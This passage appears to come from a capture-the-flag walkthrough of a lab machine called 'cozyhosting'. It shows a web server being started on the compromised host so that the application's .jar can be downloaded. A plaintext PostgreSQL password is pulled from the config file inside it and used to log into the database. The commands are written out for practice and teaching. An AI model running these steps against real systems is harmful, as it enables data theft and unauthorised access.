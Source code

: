 It turns out that my syntax for `wget` was incorrect and I forgot to start a web server on the remote host.

Creating a web server from the remote host on port 9882:

```app@cozyhosting:/app$ python3 -m http.server 9882

python3 -m http.server 9882

10.10.14.83 - - [29/Feb/2024 18:14:01] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

Grabbing the file from my local host using wget:

```
-[Thu Feb 29-10:13:56]-[table@parrot]-
-[~]$ wget 10.10.11.230:9882/cloudhosting-0.0.1.jar
--2024-02-29 10:14:02-- http://10.10.11.230:9882/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:9882... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’
cloudhosting-0.0.1.jar 100%[=====================================================>] 57.47M 17.4MB/s in 3.5s
2024-02-29 10:14:06 (16.6 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

Now that I have the .jar file, I can unzip it and read the contents. Inside the .jar extract, we find a file containing postgres credentials:

```
-[Thu Feb 29-10:16:55]-[table@parrot]-
-[~/BOOT-INF/classes]$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Using this information we can assume there may be a postgres port open on the target machine and try to log in with the credentials:

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR
\list
List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
```
